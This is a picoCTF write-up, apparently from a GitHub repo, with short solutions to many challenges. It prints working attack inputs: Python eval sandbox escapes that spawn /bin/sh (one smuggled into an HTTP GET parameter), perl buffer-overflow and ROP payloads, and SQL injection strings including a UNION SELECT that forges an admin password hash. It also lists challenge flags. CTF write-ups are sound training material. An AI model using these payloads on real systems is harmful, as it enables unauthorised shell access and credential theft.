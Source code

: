 ## Failure to boot

By guessing you get the flag

sda1 .. fail!
fat32.. success!

## Read the manual

I have coded ROT-* solver long time ago.. so I tried ROT-* solve and solved this problem.
Decrypted Text:
`IMPORTANT: To enter automatic recovery mode, enter the following recovery key cbcfebeaeeed"`

## XMLOL
You just need to download xml file and open with notepad. But i tried with view-source way.
view-source:https://picoctf.com/problems/xmlol.xml
This flag code was written on the xml file:
`<super_secret_flag>d6b6aba9c44bf3dd58809c46e2c0ffba</super_secret_flag>`

## Technician Challenge
Search about geohot using google and you will find the answer.
I don't exactly remember, but the key is Nissan ~~~

## First Contact
just look through the hex-codes of the pcap file you will find the answer :)

## Python eval 1
`nc python.picoctf.com 6361`
I didnt use eval to do it, because it's still possible to do with an easy math calculation.

## Python eval 2
`nc python.picoctf.com 6362`
the point is that you have to use eval and get the flag.
so I tried the exploit which is shown below:
```
guess> (len(flag), randint(0,9), randint(0,9), randint(0,9), randint(0,9))
guess> (str(flag[:25]), randint(0,9), randint(0,9), randint(0,9), randint(0,9))
i_are_a_pyeval_mastermind
```

## Python eval 3
`nc python.picoctf.com 6363`
__import__ is disabled but you find the working path.
```
> path.os.execl("/bin/bash", "")
cat your_flag_here
eval_is_super_OSsome
```

## Python eval 4
nc python.picoctf.com 6364
	
if GET params like "foo=bar" is sent to server, server will put the get param as {"a":"b"}
so by escaping from the brackets and quote sign, you can execute /bin/sh/ successfully.
```
GET /index.html?a=b"+input(path.os.execl("/bin/sh",""))+"a HTTP/1.1
Host: python.picoctf.com:6364
Connection: keep-alive
cat super_awesome_flag
kids_dont_code_like_this_at_home
```

## harder_serial
just keep your eyes open and understand each lines of the code. 
hint: look for the statement that starts from * 0.
42813724579039578812

## Overflow1
Well, it was easier then expected.
We just need to put variable \x01.
since the variable was before the buffer, I tried
./simple_overwrite $(perl -e 'print "\x41"x64 . "\x01";')

## Overflow2
it was similar question as overflow1, but the variable was little far away.
By using this code below, you can set the variable by overwriting stack.
./stack_overwrite $(perl -e 'print "\x41"x80 . "\x01";')

## Overflow3
The question is to call not_called function, which is from 0x080485f8.
so by using this code below, I have called the function and got the shell.
./buffer_overflow $(perl -e 'print "\x41"x76 . "\xf8\x85\x04\x08";')

## ROP1
The question was to call the function, so..
cat <(perl -e 'print "\x41"x36 . "AAAA" . "\xa4\x84\x04\x08"') - | ./rop1

## ROP2
As the question says, we have to put /bin/bash to the system function.
So, the payload should be something like below:
```
["a"*128][bbbb][&system][cccc][&"/bin/bash"]
But, I couldn't make it successful.
cat <(perl -e 'print "\x41"x128 . "BBBB" . "\xb1\x84\x04\x08" . "CCCC" . "\xa0\x84\x04\x08";') - | ./rop2
```

## Chromatophoria
Painted the background with black color and gotcha!

## GETKey
there's nothing much to do in this question.
if you look at carefully at GET param, which is foo.php?getparam=blah,
you will figure out that the admin param is false and other one is ccdc
so if you change admin param to true and other one as pico or picoctf, you get the right answer.

## Injection
the question seem to be having eregi function to disallow access for the admin.
so, i inserted guest'='guest as userid, in which all the user will be fetched out.
at the end, I got all the userid and the password at one page including the password for the admin :0

## PHP3
this was the md5-based sql injection
the point is that the bug exists in PHP
I don't want to waste my time bruteforcing for the exploit.
so I googled for the code and got the answer using the code from leetctf 2010.

## PHP4
well, again it's the sql injection.
I did the blind sql injection, and the password for admin was 'notarealhash'
so i figured out that you have to make the sql output as the password you want.
so, I used this sql code below as userid so that the password is md5('test');
```' AND 1=0 UNION SELECT '098f6bcd4621d373cade4e832627b4f6'# ```
and password as test. I successfully got the answer.
